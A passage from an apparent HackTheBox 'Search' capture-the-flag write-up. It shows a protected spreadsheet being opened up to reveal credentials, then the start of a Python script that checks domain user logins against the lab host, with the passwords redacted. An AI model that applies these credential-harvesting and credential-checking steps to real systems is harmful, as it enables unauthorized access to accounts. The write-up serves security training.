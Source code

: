 Now the protection is gone!

**Let's unhide column C:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Search/images/Pasted%20image%2020230727172047.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Search/images/Pasted%20image%2020230727172105.png)

Nice!

**Again, we can verify those credentials are valid or not:**
```python
#!/usr/bin/env python3
from os import system

if __name__ == '__main__':
    RHOSTS = '10.10.11.129'
    domainUsers = {
        'hope.sharp': '{Redacted}',
        'Edgar.Jacobs': '{Redacted}',
        'Payton.Harmon': '{Redacted}',
        'Cortez.Hickman': '{Redacted}',
        'Bobby.Wolf': '{Redacted}',
        'Margaret.Robinson': '{Redacted}',
        'Scarlett.Parks': '{Redacted}',
```